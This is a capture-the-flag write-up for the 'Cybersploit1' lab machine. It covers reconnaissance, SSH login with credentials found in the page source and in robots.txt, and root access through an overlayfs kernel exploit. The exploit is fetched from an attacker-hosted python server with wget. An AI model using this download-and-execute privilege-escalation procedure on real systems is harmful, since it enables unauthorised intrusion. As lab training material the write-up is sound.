 # Cybersploit1
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A ip_address
```
![](images/nmap.png)

There was not much interesting in the ports.        
Even with dirbuster only robots.txt was found. 

Checking the source-code of the main site we find a username in the comments.       
![](images/source-code.png)         
Its most likely the username for the SSH.       


Checking the robots.txt we find an encoded string.      
![](images/robots.png)          
It looked like a base64 encoded string.          
Use [cyber-chef](), its one of the nicer tools for encryption and decryption.       
Decoding it we find a string which I thought was a flag but it was not being accepted as a flag in the submissions.      

So I thought it maybe the password for the SSH login and tried to login, it worked!!            

After we login throught the SSH we can find the first flag in the local directory.      
I checked for user privileges, kernel version and the OS version using          
```
$ sudo -l
$ uname -a
$ cat /etc/issue
```
We were not allowed to run as sudo on this machine.         

The kernel and the OS version were old, so I googled for an exploit for the kernel version.         
And found [this](https://www.exploit-db.com/exploits/37292) on exploit-db, this exploit is called overlayfs.        

Download it onto your local machine and host a temporary python server from there to download onto the target machine.      

You can setup a local python server in the director where you downloaded the exlploit using
```
$ python3 -m http.server port
```
Download the file onto the /tmp directory
```
wget http://your_ip_address:port/37292.c
```     
The instructions to compile and execute the file are given in the same file, follow them.        

![](images/root.png)        
And now we are root!!      
     
Navigate to root directory to find the root flag.       